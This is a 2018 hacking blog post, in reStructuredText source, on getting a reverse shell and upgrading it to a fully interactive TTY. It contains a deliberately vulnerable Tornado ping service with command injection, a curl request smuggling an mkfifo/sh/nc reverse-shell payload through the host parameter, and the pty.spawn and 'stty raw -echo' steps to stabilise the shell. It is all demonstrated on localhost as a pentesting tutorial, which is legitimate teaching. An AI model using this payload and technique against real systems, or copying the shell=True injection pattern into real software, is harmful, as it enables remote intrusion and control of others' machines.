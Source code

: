 Upgrading a reverse shell?
##########################

:date: 2018-09-08 12:00
:tags: shell, tty
:category: hack
:slug: 0x02
:authors: supakeen
:summary: Some notes on gaining and upgrading reverse shells.

You've found a reverse shell but it's not behaving like a proper shell. You
can't run `su` because it requires a tty and you might not have a prompt. This
is my quick summary on my notes on upgrading a reverse shell to something
useful. If you want other ways (and this way is included) read the canonical
ropnop_ article as well.

Let's start with an easy and vulnerable application: a `ping` API. If you've
read my previous post you know that there is a command injection in this
script.

**Do not run scripts like these on your own machine as they are insecure.**

.. code-block:: python

    import tornado.web
    import tornado.ioloop

    import subprocess


    class PingAsAService(tornado.web.RequestHandler):
        def get(self):
            host = self.get_query_argument("host")
            ping = subprocess.check_output("ping {}".format(host), shell=True)
            return self.write(ping)


    if __name__ == "__main__":
        app = tornado.web.Application([
            (r"/", PingAsAService),
        ])
        app.listen(8000, address="127.0.0.1")
        tornado.ioloop.IOLoop.current().start()

Using this service is pretty straightforward, passing it the `host` query
parameter will execute ping and return its output:

.. code-block:: plain

    % python3 donotrunthis.py &
    [1] 11479
    % curl 'http://localhost:8000/?host=localhost'
    PING localhost (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.039 ms

    --- localhost ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.039/0.039/0.039/0.000 ms

While getting a reverse shell is slightly out of scope for this post, here is
what I usually use. This one is from a well known cheatsheet_ and works for both
BSD and GNU nc.

Open three terminals.
---------------------

In one terminal where you don't run a terminal multipler setup your `nc` to
listen to a port. It is important that you don't run a terminal multiplexer such
as `screen` or `tmux` because we will be adjusting the terminal settings and
the mux will interfere.

.. code-block:: plain

   % nc -lv 4242
   Listening on [0.0.0.0] (family 0, port 4242)

This terminal will hang while waiting for a connection. In terminal two we'll
run our exploitable script. Let's not run it in the background as causing tty
input/output on a background job can cause the background process to be
paused.


.. code-block:: plain

   & python3 donotrunthis.py

In the last terminal we will run our exploit. `curl` has a handy option of
escaping the URL parameters for you but you need to pass `-G` to explicitly
make the request a `GET`.

.. code-block:: plain

    $ curl -Gv --data-urlencode 'host=localhost;rm /tmp/foo; mkfifo /tmp/foo; cat /tmp/foo | /bin/sh -i 2>&1 | nc localhost 4242 > /tmp/foo &' 'http://localhost:8000/'
    *   Trying 127.0.0.1...
    * TCP_NODELAY set
    * Connected to localhost (127.0.0.1) port 8000 (#0)
    > GET /?host=localhost%3Brm%20%2Ftmp%2Ffoo%3B%20mkfifo%20%2Ftmp%2Ffoo%3B%20cat%20%2Ftmp%2Ffoo%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20localhost%204242%20%3E%20%2Ftmp%2Ffoo%20%26 HTTP/1.1
    > Host: localhost:8000
    > User-Agent: curl/7.58.0
    > Accept: */*
    >

This terminal will now hang here as our exploitable application never returns
any data. However, if we look over at our terminal with `nc` in it:

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $

Our command injection has worked and is now connected to our netcat. However
this shell has a few issues! When we run a program and try to `ctrl+c` it our
netcat program exits. And trying to run `su` yields another error:

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $

The reason of why is not relevant in this article but the gist is that your
command injection was not allocated a `pty`. We can work around that by
first gaining a tty using python.

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $ python -c 'import pty; pty.spawn("/bin/bash")'
    user@hole:~$ whoami
    whoami
    user
    user@hole:~$ su -
    su -
    Password: asdf

    su: Authentication failure

Our shell gained a pty and with it a fancy prompt but everything we type is being
output and sadly using `ctrl+c` still exits our nc. Not the process on the
remote.

To fix this we're going to tell our own terminal to not interpret any command
sequences anymore.

First we `ctrl+z` which moves the current `nc` to the background. We then put
our own terminal in raw mode using `stty raw -echo`.

.. code-block:: plain

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $ python -c 'import pty; pty.spawn("/bin/bash")'
    user@hole:~$ whoami
    whoami
    user
    user@hole:~$ su -
    su -
    Password: asdf

    su: Authentication failure

    user@hole:~$ ^Z
    [1]+  Stopped                 nc -lv 4242
    $ stty raw -echo

After you enter this you will see nothing and your own keypresses won't be
shown anymore. Enter `fg` blindly to resume the netcat process after which
you will see output again as the pty you spawned earlier is now talking to your
terminal. This means the double output for keys is gone. For good measure
`reset` straight after the `fg` and let's see if everything is as it should
be.

This will clear the and possibly resize it for you. You now have a fully
functional reverse shell. You can run tmux or screen, or any other application
your heart desires.

.. _cheatsheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
.. _ropnop: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
